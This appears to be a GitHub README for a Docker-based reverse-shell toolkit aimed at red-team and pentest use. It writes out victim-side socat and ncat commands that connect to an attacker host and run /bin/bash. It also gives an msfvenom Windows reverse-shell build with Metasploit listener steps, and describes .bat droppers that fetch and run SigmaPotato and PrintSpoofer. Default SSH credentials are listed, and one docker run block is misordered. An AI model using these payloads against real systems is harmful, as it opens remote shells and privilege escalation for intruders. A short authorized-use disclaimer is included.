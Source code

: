 # 🐚 Docker Reverse Shell Toolkit

![Docker Logo](https://www.docker.com/wp-content/uploads/2022/03/horizontal-logo-monochromatic-white.png)

This project provides a **simple and modular Bash-based Reverse Shell Docker container** for penetration testing and red team simulations. It allows you to spawn reverse shells with ease and minimal setup. Output and logs are mounted to host for easy access.

---

## ✨ Features

- 🧾 Auto-generated `.bat` droppers with runtime IP/Port injection
- 🌐 Web UI for live payload generation (`payload_generator.html`)
- ⚙️ CLI-based dynamic reverse shell generator with output log
- 🔐 HTTPS server using NGINX with self-signed TLS
- 🧪 Payloads for:
  - PowerShell (encoded)
  - SigmaPotato
  - PrintSpoofer
  - ncat / socat / msfvenom
- 📦 Docker Volumes for logs and payloads
- 🔐 SSH access (user: `ssh_admin`, pass: `ssh_admin`, port: `2222`)

---

## 🧱 Build the Docker Image

```bash
docker build -t reverse-shell .
```

---

## 🧪 Run the Container

```bash
  -p 8080:8080 \
docker run -it --rm \
  -v $(pwd)/logs:/app/logs \
  -v $(pwd)/www:/usr/share/nginx/html \
  -p 443:443 -p 4444:4444 -p 5555:5555 -p 2222:2222 \
  reverse-shell
```

---

## 🔐 Access Details

| Service        | Access Info                                     |
|----------------|-------------------------------------------------|
| HTTPS Payloads | https://<your_ip>/                              |
| Web Generator  | https://<your_ip>/payload_generator.html        |
| SSH Access     | ssh ssh_admin@<your_ip> -p 2222 (pw: ssh_admin) |

---

## 🧾 Payload Generator (Web UI)

📍 Visit:  
```
https://<your_ip>/payload_generator.html
```

📥 Input your IP and Port.  
🔐 It dynamically shows:

- Base64-encoded PowerShell
- SigmaPotato
- PrintSpoofer

---

## 🔧 CLI-Based Generator

When the container starts, it will prompt you for:

- Your Attacker IP
- Your Listening Port

This will:

- Generate encoded PowerShell payloads
- Output payloads to `/usr/share/nginx/html/reverse_payloads.txt`
- Print to screen

---

## 🧷 Auto-Generated `.bat` Files

These are served from the container's `/usr/share/nginx/html`:

- `auto_sigma_https.bat`  
  ➤ Downloads and executes SigmaPotato over HTTPS

- `auto_printspoofer_https.bat`  
  ➤ Downloads PrintSpoofer and injects encoded PowerShell

Update IP and Port inside `.bat` manually or regenerate with the CLI.

---

## 🧬 Additional Payload Examples

### 🔹 Socat (encrypted shell)

**Attacker:**
```bash
socat openssl-listen:4444,reuseaddr,fork,cert=cert.pem,key=key.pem,verify=0 -
```

**Victim:**
```bash
socat openssl:attacker_ip:4444,verify=0 exec:/bin/bash,pty,stderr,setsid,sigint,sane
```

---

### 🔹 Ncat (SSL reverse shell)

**Attacker:**
```bash
ncat -lvnp 5555 --ssl
```

**Victim:**
```bash
ncat --ssl attacker_ip 5555 -e /bin/bash
```

---

### 🔹 MSFVenom Payload

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe > www/rev_shell.exe
```

**Start Listener:**
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/shell_reverse_tcp
set LHOST <your_ip>
set LPORT 4444
run
```

---

## 🔐 HTTPS Support (NGINX)

Built-in HTTPS support using NGINX and a self-signed cert:

- Mounted at: `/etc/nginx/cert.pem` and `/etc/nginx/key.pem`
- Default TLS port: `443`
- Hosts everything in `/usr/share/nginx/html`

---

## 🗂 Docker Volumes

| Host Folder | Container Mount Path         | Purpose               |
|-------------|------------------------------|------------------------|
| `./logs`    | `/app/logs`                  | Output logs            |
| `./www`     | `/usr/share/nginx/html`      | Web payload hosting    |

---

## ⚠️ Legal Disclaimer

> This toolkit is intended **for authorized testing only**.  
> Unauthorized use is illegal and unethical.  
> Always get written permission before testing any system you do not own.

---

## 🌐 Optional HTTP Access (Port 8080)

Although HTTPS (443) is preferred, this toolkit also exposes port **8080** for plain HTTP delivery if needed.

This is helpful for:
- Legacy tools
- Targets without trusted cert support
- Quick testing without TLS overhead

**Usage:**
```bash
http://<your_ip>:8080/SigmaPotato.exe
http://<your_ip>:8080/auto_sigma_https.bat
```

Mount the port:
```bash
-p 8080:8080
```

To start a plain HTTP server manually inside the container:
```bash
python3 -m http.server 8080 --directory /usr/share/nginx/html
```

**Reminder:** Plain HTTP is unencrypted and should only be used in controlled environments.
